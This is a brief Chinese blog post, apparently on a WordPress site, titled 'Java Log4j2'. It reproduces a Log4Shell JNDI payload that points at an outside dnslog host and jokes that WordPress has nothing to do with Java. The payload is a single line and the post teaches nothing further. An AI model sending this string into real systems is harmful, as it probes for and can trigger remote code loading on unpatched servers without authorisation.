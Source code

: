 ```yaml
---
title: Java Log4j2
tags:
  - 日常
  - 网站
id: '722'
categories:
  - - 动态
date: 2021-12-21 10:07:04
---
```


${jndi:ldap://wy2gkk.dnslog.cn/exp}

笑死，Wordpress 和 Java 有半毛钱关系
